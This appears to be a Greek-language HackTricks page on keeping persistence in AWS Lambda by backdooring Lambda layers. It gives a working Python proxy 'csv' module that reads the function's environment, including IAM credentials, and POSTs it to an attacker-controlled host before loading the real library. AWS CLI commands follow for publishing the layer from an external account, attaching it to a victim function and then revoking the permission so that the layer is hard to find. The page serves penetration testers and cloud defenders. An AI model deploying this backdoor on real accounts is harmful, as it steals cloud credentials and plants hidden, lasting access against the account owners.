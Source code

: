# AWS - Lambda Layers Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## Lambda Layers

Ένα Lambda layer είναι ένα αρχείο .zip που **μπορεί να περιέχει επιπλέον κώδικα** ή άλλο περιεχόμενο. Ένα layer μπορεί να περιέχει βιβλιοθήκες, ένα [custom runtime](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), δεδομένα ή αρχεία ρυθμίσεων.

Είναι δυνατόν να συμπεριλάβετε έως **πέντε layers ανά λειτουργία**. Όταν συμπεριλαμβάνετε ένα layer σε μια λειτουργία, το **περιεχόμενο εξάγεται στον φάκελο `/opt`** στο περιβάλλον εκτέλεσης.

Κατά **προεπιλογή**, τα **layers** που δημιουργείτε είναι **ιδιωτικά** για τον λογαριασμό σας στο AWS. Μπορείτε να επιλέξετε να **μοιραστείτε** ένα layer με άλλους λογαριασμούς ή να **κάνετε** το layer **δημόσιο**. Εάν οι λειτουργίες σας καταναλώνουν ένα layer που δημοσίευσε διαφορετικός λογαριασμός, οι λειτουργίες σας μπορούν να **συνεχίσουν να χρησιμοποιούν την έκδοση του layer μετά την διαγραφή του, ή μετά την ανάκληση της άδειάς σας για πρόσβαση στο layer**. Ωστόσο, δεν μπορείτε να δημιουργήσετε μια νέα λειτουργία ή να ενημερώσετε λειτουργίες χρησιμοποιώντας μια διαγραμμένη έκδοση layer.

Οι λειτουργίες που αναπτύσσονται ως εικόνα κοντέινερ δεν χρησιμοποιούν layers. Αντίθετα, συσκευάζετε το προτιμώμενο runtime, τις βιβλιοθήκες και άλλες εξαρτήσεις στην εικόνα κοντέινερ όταν κατασκευάζετε την εικόνα.

### Python load path

Η διαδρομή φόρτωσης που θα χρησιμοποιήσει η Python στο lambda είναι η εξής:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Ελέγξτε πώς οι **δεύτερες** και τρίτες **θέσεις** καταλαμβάνονται από καταλόγους όπου οι **lambda layers** αποσυμπιέζουν τα αρχεία τους: **`/opt/python/lib/python3.9/site-packages`** και **`/opt/python`**

> [!CAUTION]
> Εάν ένας επιτιθέμενος καταφέρει να **backdoor** μια χρησιμοποιούμενη **lambda layer** ή **προσθέσει μία** που θα **εκτελεί αυθαίρετο κώδικα όταν φορτώνεται μια κοινή βιβλιοθήκη**, θα είναι σε θέση να εκτελεί κακόβουλο κώδικα με κάθε κλήση lambda.

Επομένως, οι απαιτήσεις είναι:

- **Ελέγξτε τις βιβλιοθήκες** που είναι **φορτωμένες** από τον κώδικα των θυμάτων
- Δημιουργήστε μια **proxy βιβλιοθήκη με lambda layers** που θα **εκτελεί προσαρμοσμένο κώδικα** και θα **φορτώνει την αρχική** βιβλιοθήκη.

### Προφορτωμένες βιβλιοθήκες

> [!WARNING]
> Όταν καταχρώμαι αυτή την τεχνική, βρήκα μια δυσκολία: Ορισμένες βιβλιοθήκες είναι **ήδη φορτωμένες** στο runtime της python όταν εκτελείται ο κώδικάς σας. Περίμενα να βρω πράγματα όπως `os` ή `sys`, αλλά **ακόμα και η βιβλιοθήκη `json` ήταν φορτωμένη**.\
> Για να καταχραστεί αυτή την τεχνική επιμονής, ο κώδικας πρέπει να **φορτώσει μια νέα βιβλιοθήκη που δεν είναι φορτωμένη** όταν εκτελείται ο κώδικας.

Με έναν κώδικα python όπως αυτόν είναι δυνατόν να αποκτηθεί η **λίστα των βιβλιοθηκών που είναι προφορτωμένες** μέσα στο runtime της python στη lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Και αυτή είναι η **λίστα** (ελέγξτε ότι οι βιβλιοθήκες όπως το `os` ή το `json` είναι ήδη εκεί)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Και αυτή είναι η λίστα με τις **βιβλιοθήκες** που **περιλαμβάνει η lambda εγκατεστημένες από προεπιλογή**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring Lambda Layer

Σε αυτό το παράδειγμα ας υποθέσουμε ότι ο στοχευμένος κώδικας εισάγει **`csv`**. Θα **backdoor-άρουμε την εισαγωγή της βιβλιοθήκης `csv`**.

Για να το κάνουμε αυτό, θα **δημιουργήσουμε τον φάκελο csv** με το αρχείο **`__init__.py`** μέσα σε μια διαδρομή που φορτώνεται από τη lambda: **`/opt/python/lib/python3.9/site-packages`**\
Έτσι, όταν εκτελείται η lambda και προσπαθεί να φορτώσει **csv**, το **αρχείο `__init__.py` μας θα φορτωθεί και θα εκτελεστεί**.\
Αυτό το αρχείο πρέπει να:

- Εκτελεί το payload μας
- Φορτώνει την αρχική βιβλιοθήκη csv

Μπορούμε να κάνουμε και τα δύο με:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Στη συνέχεια, δημιουργήστε ένα zip με αυτόν τον κώδικα στη διαδρομή **`python/lib/python3.9/site-packages/__init__.py`** και προσθέστε το ως ένα lambda layer.

Μπορείτε να βρείτε αυτόν τον κώδικα στο [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Το ενσωματωμένο payload θα **στείλει τα IAM creds σε έναν διακομιστή ΤΗΝ ΠΡΩΤΗ ΦΟΡΑ που θα κληθεί ή ΜΕΤΑ από μια επαναφορά του κοντέινερ lambda** (αλλαγή κώδικα ή κρύα lambda), αλλά **άλλες τεχνικές** όπως οι παρακάτω θα μπορούσαν επίσης να ενσωματωθούν:

{{#ref}}
../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md
{{#endref}}

### Εξωτερικά Layers

Σημειώστε ότι είναι δυνατό να χρησιμοποιήσετε **lambda layers από εξωτερικούς λογαριασμούς**. Επιπλέον, μια lambda μπορεί να χρησιμοποιήσει ένα layer από έναν εξωτερικό λογαριασμό ακόμη και αν δεν έχει δικαιώματα.\
Επίσης, σημειώστε ότι ο **μέγιστος αριθμός layers που μπορεί να έχει μια lambda είναι 5**.

Επομένως, προκειμένου να βελτιωθεί η ευελιξία αυτής της τεχνικής, ένας επιτιθέμενος θα μπορούσε να:

- Backdoor ένα υπάρχον layer του χρήστη (τίποτα δεν είναι εξωτερικό)
- **Δημιουργήσει** ένα **layer** στον **λογαριασμό του**, να δώσει πρόσβαση στον **λογαριασμό του θύματος** για να χρησιμοποιήσει το layer, να **ρυθμίσει** το **layer** στη Lambda του θύματος και να **αφαιρέσει την άδεια**.
- Η **Lambda** θα μπορεί ακόμα να **χρησιμοποιεί το layer** και το **θύμα δεν θα** έχει εύκολο τρόπο να **κατεβάσει τον κώδικα των layers** (εκτός από το να αποκτήσει ένα rev shell μέσα στη lambda)
- Το θύμα **δεν θα δει εξωτερικά layers** που χρησιμοποιούνται με **`aws lambda list-layers`**
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{{#include ../../../../banners/hacktricks-training.md}}
